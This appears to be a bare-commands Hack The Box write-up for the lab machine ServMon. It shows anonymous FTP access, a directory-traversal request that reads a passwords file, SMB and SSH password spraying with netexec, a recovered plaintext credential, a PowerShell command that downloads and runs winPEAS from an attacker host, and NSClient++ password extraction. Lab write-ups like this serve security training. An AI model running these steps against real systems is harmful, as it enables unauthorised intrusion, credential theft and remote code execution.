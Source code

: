 ```yaml
---
title: ServMon
layout: default
---
```

```bash
ftp 10.10.10.184

anonymous
```

```
searchsploit NVMS
```

```
GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt 
```

```bash
netexec smb 10.10.10.184 -u 'Nathan' -p passwords.txt
```

```bash
netexec smb 10.10.10.184 -u 'Nadine' -p passwords.txt
```

```
Nadine \ L1k3B1gBut7s@W0rk
```

```bash
netexec ssh 10.10.10.184 -u 'Nathan' -p passwords.txt
```

```bash
netexec ssh 10.10.10.184 -u 'Nadine' -p passwords.txt
```

```bash
ssh nadine@10.10.10.184
```

Para usar scp entre ssh windows y linux :
```bash
scp -r Nadine@10.10.10.184:/C:/RecData /mnt/Windows/Hacking/HackTheBox/Machines/ServMon/content/
```

```powershell
powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11/winPEAS.ps1')
```

```bash
cmd /c "C:\Program Files\NSClient++\nscp.exe" --version
```

```bash
nscp web -- password --display
```

```bash
ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```
